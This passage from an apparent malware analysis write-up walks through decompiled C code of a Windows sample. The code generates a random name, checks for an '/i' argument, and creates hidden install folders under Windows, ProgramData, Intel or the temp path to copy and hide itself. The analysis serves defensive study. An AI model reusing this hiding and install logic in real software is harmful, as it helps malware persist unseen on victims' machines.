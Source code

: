 After generating the character portion, the same function will add three random numbers to the end and return the generated random name.
```c
init_random_plus_3 = init_random + 3;
while ( running_number < init_random_plus_3 )
{
  *(running_number + display_name) = rand() % 10 + '0';
  ++running_number;
}
result = display_name;
*(running_number + display_name) = 0;
return result;
```

The point of this, is to create a random name. While it is random, is always replicatable on each machine. This name will be used for hiding files later on.

### More of main
Jumping back to the main function again:
```c
GetModuleFileNameA(0, FileNameSelf, 520u);
GenerateRandomName(random_name);
if ( *_p___argc() != 2                            // <-- This
  || (argv = _p___argv(), strcmp((*argv)[1], aI)) // <-- and this!
  || !CreateInstallFolder(0)
  || (CopyFileA(FileNameSelf, FileName, 0), GetFileAttributesA(FileName) == -1)
  || !HideBinary() )
{
...
}
```
We can see that underneath the random name generator, there is a big if statement running multiple different functions.

Going from the top down, it will check if it was run with anything except two arguments. 

If it was run with two arguments, it will attempt the following: `(argv = _p___argv(), strcmp((*argv)[1], aI))` this is checking if the first argument is `/i`.

If the process is not run with `/i`, the executable will first call the `CreateInstallFolder` function.
### CreateInstallFolder
The function is rather straightforward:
```c
MultiByteToWideChar(0, 0, random_name, -1, random_name_wchar, 99);
GetWindowsDirectoryW(Buffer, 0x104u);         // C:\Windows
swprintf(FileName, aSProgramdata, Buffer);    // C:\ProgramData
if ( GetFileAttributesW(FileName) != -1 && CreateHiddenFolder(FileName, random_name_wchar, arg_zero) )
  return 1;
swprintf(FileName, aSIntel, Buffer);          // C:\Intel
if ( CreateHiddenFolder(FileName, random_name_wchar, arg_zero)
  || CreateHiddenFolder(Buffer, random_name_wchar, arg_zero) )
{
  return 1;
}
GetTempPathW(0x104u, FileName);
if ( wcsrchr(FileName, '\\') )
  *wcsrchr(FileName, '\\') = 0;
return CreateHiddenFolder(FileName, random_name_wchar, arg_zero) != 0;
```
The function will iterate through `C:\Windows`, `C:\ProgramData` and `C:\Intel` to try to generate a hidden folder with the previously generated random name.
If it is unable to use any of these folders, the process will default to generating a temporary folder with the same, randomly generated name. 

